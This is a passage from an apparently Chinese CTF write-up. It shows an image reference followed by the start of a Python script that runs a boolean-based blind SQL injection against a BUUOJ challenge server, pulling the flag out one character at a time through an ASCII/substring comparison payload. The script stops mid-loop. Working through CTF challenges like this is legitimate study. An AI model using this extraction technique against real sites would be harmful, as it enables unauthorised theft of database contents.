 <img src="CTF.assets/image-20230706161746308.png" alt="image-20230706161746308" style="zoom:50%;" />

最后就是写脚本来做盲注了，源码

```py
import requests
import urllib3
import re

urllib3.disable_warnings()
flag = ""
for i in range(60):
    for asc in range(0, 129):
        payload = f"0^(select(select(ascii(substring((select(flag)from(flag)),{i},1))))={asc})"
        post_data = {
            'id': payload
        }

        req = requests.post("http://bb016411-f720-4158-ab9a-e6884d8f790b.node4.buuoj.cn:81/index.php",
                            data=post_data, verify=False).text
        if re.search("Hello, glzjin wants a girlfriend", req):
```